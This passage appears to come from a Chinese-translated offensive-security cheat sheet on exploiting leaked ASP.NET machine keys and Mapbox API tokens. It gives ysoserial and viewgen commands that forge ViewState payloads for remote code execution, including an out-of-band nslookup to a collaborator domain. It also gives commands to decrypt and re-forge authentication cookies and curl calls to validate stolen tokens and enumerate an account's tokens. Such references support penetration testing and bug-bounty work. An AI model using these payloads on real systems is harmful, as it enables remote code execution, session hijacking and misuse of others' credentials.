 #### Generate ViewState for RCE - 生成ViewState用于RCE

**NOTE**: 将带有生成的 ViewState 的 POST 请求发送到同一端点，在 Burp 中，应该对有效负载的关键字符进行 URL 编码。

```
$ ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "cmd.exe /c nslookup <your collab domain>"  --decryptionalg="AES" --generator=ABABABAB decryptionkey="<decryption key>"  --validationalg="SHA1" --validationkey="<validation key>"
$ ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\pwn.txt" --generator="CA0B0334" --validationalg="MD5" --validationkey="b07b0f97365416288cf0247cffdf135d25f6be87"
$ ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "C:\Users\zhu\Desktop\ExploitClass.cs;C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.dll;C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Web.dll" --generator="CA0B0334" --validationalg="SHA1" --validationkey="b07b0f97365416288cf0247cffdf135d25f6be87"

$ viewgen --webconfig web.config -m CA0B0334 -c "ping yourdomain.tld"
```

#### Edit cookies with the machine key - 编辑机器密钥cookie

如果您有 machineKey 但 ViewState 被禁用。

ASP.net 表单身份验证 Cookies : https://github.com/liquidsec/aspnetCryptTools

```
# decrypt cookie
$ AspDotNetWrapper.exe --keypath C:\MachineKey.txt --cookie XXXXXXX_XXXXX-XXXXX --decrypt --purpose=owin.cookie --valalgo=hmacsha512 --decalgo=aes

# encrypt cookie (edit Decrypted.txt)
$ AspDotNetWrapper.exe --decryptDataFilePath C:\DecryptedText.txt
```

### Mapbox API Token

> 译者注：Mapbox是为Foursquare、Pinterest、Evernote、《金融时报》、天气频道、优步科技等公司的网站提供订制在线地图的大型供应商。

A Mapbox API Token is a JSON Web Token (JWT). If the header of the JWT is `sk`, jackpot. If it's `pk` or `tk`, it's not worth your time.

Mapbox API 令牌是一种 JSON Web 令牌 (JWT)。如果JWT的header是`sk`，那么恭喜您中大奖了。如果是`pk`或`tk`，那不值得您继续花时间。

```
# 检查Token有效性
curl "https://api.mapbox.com/tokens/v2?access_token=YOUR_MAPBOX_ACCESS_TOKEN"

# 获取与帐户关联的所有令牌的列表
# 仅当令牌是秘密令牌 (sk) 并且具有适当的范围时才有效
curl "https://api.mapbox.com/tokens/v2/MAPBOX_USERNAME_HERE?access_token=YOUR_MAPBOX_ACCESS_TOKEN"
```

## References

- [Finding Hidden API Keys & How to use them - Sumit Jain - August 24, 2019](https://medium.com/@sumitcfe/finding-hidden-api-keys-how-to-use-them-11b1e5d0f01d)
- [Private API key leakage due to lack of access control - yox - August 8, 2018](https://hackerone.com/reports/376060)
- [Project Blacklist3r - November 23, 2018 - @notsosecure](https://www.notsosecure.com/project-blacklist3r/)
- [Saying Goodbye to my Favorite 5 Minute P1 - Allyson O'Malley - January 6, 2020](https://www.allysonomalley.com/2020/01/06/saying-goodbye-to-my-favorite-5-minute-p1/)
- [Mapbox API Token Documentation](https://docs.mapbox.com/help/troubleshooting/how-to-use-mapbox-securely/)